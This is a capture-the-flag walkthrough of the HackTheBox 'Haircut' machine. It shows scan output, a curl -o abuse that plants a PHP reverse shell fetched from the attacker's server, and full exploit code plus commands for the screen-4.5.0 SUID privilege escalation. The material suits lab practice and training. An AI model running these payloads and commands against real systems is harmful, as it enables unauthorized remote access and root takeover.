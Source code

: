 ```yaml
---
title: Haircut - HackTheBox Walkthrough
author: Degr4ne
date: 2021-11-08 12:00:00 
categories: [HackTheBox,Linux]
tags: [suid]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Haircut/00-banner.png
  width: 592
  height: 377
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Haircut` a retired linux machine from HackTheBox rated medium. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we’ll start with a nmap scan to discover the open ports and services.
```console
$cat nmap-scan
# Nmap 7.91 scan initiated Wed Nov  3 21:23:26 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.249.10
Nmap scan report for 10.129.249.10
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  3 21:23:59 2021 -- 1 IP address (1 host up) scanned in 32.31 seconds
```
There only two ports open: `22:ssh`, `80:http`.
## HTTP Enumeration
Looks like a normal webpage, let's try bruteforcing the directories looking for anything interesting.
```console
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.249.10/ -t 100 -x txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.249.10/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/11/03 21:40:05 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 194] [--> http://10.129.249.10/uploads/]
/exposed.php          (Status: 200) [Size: 446]

===============================================================
2021/11/03 21:43:12 Finished
===============================================================
```

`/uploads` returns a 403 forbidden and on `exposed.php` has a place to enter a URL, after testing some urls seems that the page is using `curl` command

![01-web](/assets/img/HTB/Haircut/01-web.png)
# Initial Foothold
I tried inject commands using:
- http://localhost/test.html \| id
- http://localhost/test.html ; id
- http://localhost/test.html ; $(id)

That's when I remembered about `-o` curl argument that allows write the output into a specific file.
Copy a reverse shell and change the ip and the listener port.
```console
$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
Create a Python HTTP Server and then submit: `http://10.10.14.108/shell.php -o /var/www/html/uploads/shell.php` to save the output inside `/uploads` directory.

Visit `http://10.129.249.10/uploads/shell.php` and recieve a reverse shell on your listener port.

![02-shell](/assets/img/HTB/Haircut/02-shell.png)

Upgrade the shell to a TTY Shell:

```console
$script /dev/null -c bash
$^Z
$nc -nlvp 443
$stty raw -echo; fg
$
$export TERM=xterm
$export SHELL=bash
$stty rows 53 columns 190
```
# Privilage Escalation
Seems `screen-4.5.0` has SUID permissions and is vulnerable to a [Local Privilege Escalation](https://www.exploit-db.com/exploits/41154) .

![03-suid](/assets/img/HTB/Haircut/03-suid.png)

When I tried to run the exploit, it showed some errors. That's why I decided to compile both C programs on my kali machine.

The first script with the name of `libhax.c`:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
![04-c](/assets/img/HTB/Haircut/04-c.png)

And the second with the name of `rootshell.c`:
```c
#include <stdio.h>
#include <stdlib.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    system("/bin/sh", NULL, NULL);
}
```
![05-c](/assets/img/HTB/Haircut/05-c.png)

After compile both programs create a python HTTP Server and transfer both files to the victim machine.
```
wget http://10.10.14.108/libhax.so
wget http://10.10.14.108/rootshell
```
Then execute the next commands:
```console
$ cd /etc
$ umask 000
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ screen -ls
$ /tmp/rootshell
```
Now we are root and we can read root.txt

![06-root](/assets/img/HTB/Haircut/06-root.png)

That’s it for now guys. Until next time.

